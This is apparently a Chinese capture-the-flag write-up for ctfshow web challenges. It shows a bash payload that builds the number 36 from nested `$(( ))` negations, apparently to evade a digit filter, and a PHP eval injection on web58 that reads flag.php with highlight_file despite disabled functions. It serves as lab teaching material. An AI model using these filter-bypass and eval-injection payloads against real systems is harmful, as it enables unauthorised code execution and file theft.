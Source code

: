 linux的一些运算

> 运算完后都要加上`$(())`来表示这是一次运算
> `$(())` 代表做一次运算，因为里面为空，也表示值为0
> `$((~$(())))` 对0作取反运算，值为-1
> `$(($((~$(())))$((~$(())))))` -1-1，也就是(-1)+(-1)为-2，所以值为-2
> `$((~$(($((~$(())))$((~$(())))))))` 再对-2做一次取反得到1，所以值为1

取反运算得到的值就是  -(a+1)

所以把-1的值`$((~$(())))`重复加上37次得到-37，再取反，得到-(-37+1)=36

所以就是`$((  ~$((  '$((~$(())))'*37 ))))`可以在两个-1之间加一个加号，也可以不加

用py打印一下就是

```python
data = "$((~$(("+"$((~$(())))"*37+"))))"
print(data)
#结果：$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```

+++

### <font color='orange'>web58-web</font>

+++

下面一部分考的是**绕过disable_functions系列**，尽量用不同的办法

[yu师傅的博客有很多种办法](https://blog.csdn.net/miuzzx/article/details/108619930)

#### 58

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

应该是用php禁用了很多函数

回显信息是这样的

**Warning**: phpinfo() has been disabled for security reasons in **/var/www/html/index.php(17) : eval()'d code** on line **1**

system也被禁用了，本题考察的应该是php的文件读取

直接`highlight_file('flag.php')`得到答案
